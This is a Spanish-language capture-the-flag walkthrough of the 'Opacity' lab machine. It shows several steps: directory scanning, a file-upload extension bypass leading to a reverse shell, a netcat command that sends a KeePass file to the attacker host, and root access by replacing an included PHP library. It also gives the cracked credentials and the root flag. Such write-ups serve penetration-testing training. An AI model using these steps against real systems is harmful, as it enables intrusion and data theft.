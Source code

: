 
Opacity is an easy machine that can help you in the penetration testing learning process.

There are 2 hash keys located on the machine (user - local.txt and root - proof.txt). Can you find them and become root?

_Hint: There are several ways to perform an action; always analyze the behavior of the application._

Realizamos un escaneo de puertos, esta vez vamos a usar [RustScan](https://github.com/RustScan/RustScan) 
![[Pasted image 20241230223241.png]]
el ssh tiene password, pero la pagina web es accesible, por lo que vamos a escanear posibles subdominios con gobuster

![[Pasted image 20241230224246.png]]

```bash
 $ gobuster dir -u 10.10.137.245 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,php3, html
```

con este segundo comando (tras haber descargado los diccionarios de dirbuster) nos muestra que hay un subdomino /cloud que nos permite subir archivos. 

![[Pasted image 20241231114020.png]]

si intentamos subir un archivo .php para realizar RCE nos va a negar la subida, debido a q no admite archivos que no tengan extensiones de imagen. Si probamos a subir el archivo con nombre test.php.jpg, podemos observar que si nos deja subirlo, pero a la hora de acceder a el no podemos ejecutar el codigo q lleva, para ello siguiendo los consejos de [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)podemos intentar modificar el nombre para que al realizar la solicitud GET solicite el archivo .php en vez de el php.jpg
![[Pasted image 20241231114507.png]]

tras probar, llegamos a la conclusion que si el nombre lleva un # despues del php conseguimos nuestro objetivo.

![[Pasted image 20241231114651.png]]

Ahora vamos a proceder a generar una shell, y para ello usamos [RevShell](https://www.revshells.com) y empezamos a escuchar con NetCat

![[Pasted image 20241231115317.png]]

Ahora si navegamos al archivo subido obtenemos una shell
`10.10.33.109/cloud/images/rs.php`
![[Pasted image 20241231120214.png]]
Ejecutamos `python3 -version` para obtener la version de python
![[Pasted image 20241231120341.png]]
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
asi obtenemos una shell mas completa
```
(cat /proc/version || uname -a ) 2>/dev/null
```
usando este comando obtenemos las versiones del kernel y del sistema operativo
```
Linux version 5.4.0-139-generic (buildd@lcy02-amd64-112) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.1)) #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023
```

* **Version Kernel:** 5.4.0
* **Version Ubuntu:** 20.04.1
* **Version GCC:** 9.4.0

Revisando los archivos del sistema podemos encontrar en /opt un archivo llamado dataset.kdbx, este podemos descargarlo usando [netcat](https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/)
Attacking machine command:
``` bash
nc -lvp 4444 > FiletoDownload
```

Victim Machine command:

``` bash
nc 192.168.1.35 4444 -w 3 < FiletoDownload
```

tras formatear el archivo a johntheripper y crackear la contraseña podemos obtener las credenciales de acceso de un [KeeWeb](https://app.keeweb.info/)
![[Pasted image 20241231131306.png]]

![[Pasted image 20241231131436.png]]
**User:** sysadmin
**Pass:** Cl0udP4ss40p4city#8700

En el directorio home de  Sysadmin tenemos la primera flag
![[Pasted image 20241231131738.png]] 
ademas de un directorio scripts![[Pasted image 20241231135249.png]]

Podemos ver que script.php carga una libreria `backup.inc.php` de /lib/ vamos a ver q hace ese archivo y si podemos modificarlo

![[Pasted image 20241231135159.png]]

borramos el archivo y subimos el nuestro con el mismo nombre con una reverse shell en su interior, usando esta vez un [servidor http](https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/)para transferir los archivos, una vez tenemos acceso al usuario root, accedemos a la carpeta /root y esta la segunda flag `proof.txt`
<u>ac0d56f93202dd57dcb2498c739fd20e</u> 
